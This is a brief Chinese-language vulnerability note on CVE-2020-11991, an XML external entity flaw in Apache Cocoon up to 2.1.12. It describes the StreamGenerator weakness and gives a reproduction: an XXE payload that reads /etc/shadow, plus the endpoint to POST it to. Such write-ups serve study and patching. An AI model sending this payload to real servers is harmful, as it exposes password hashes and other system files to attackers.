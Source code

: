 （CVE-2020-11991）Apache Cocoon XML 外部实体注入漏洞
====================================================

一、漏洞简介
------------

Apache Cocoon 是一个基于 Spring
框架的围绕分离理念建立的构架，在这种框架下的所有处理都被预先定义好的处理组件线性连接起来，能够将输入和产生的输出按照流水线顺序处理。用户群：Apache
Lenya、Daisy CMS、Hippo CMS、Mindquarry等等，Apache Cocoon
通常被作为一个数据抽取、转换、加载工具或者是系统之间传输数据的中转站。CVE-2020-11991
与 StreamGenerator 有关，在使用 StreamGenerator 时，代码将解析用户提供的
xml。攻击者可以使用包括外部系统实体在内的特制 xml
来访问服务器系统上的任何文件。

二、漏洞影响
------------

Apache Cocoon \<= 2.1.12

三、复现过程
------------

以下是apache社区官方提供利用方式：

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY ent SYSTEM
    "file:///etc/shadow"> ]>
    <userInfo>
    <firstName>John</firstName>
    <lastName>&ent;</lastName>
    </userInfo>

与普通XXE并无差别，向`/v2/api/product/manger/getInfo`位置POST构造好的xml数据即可
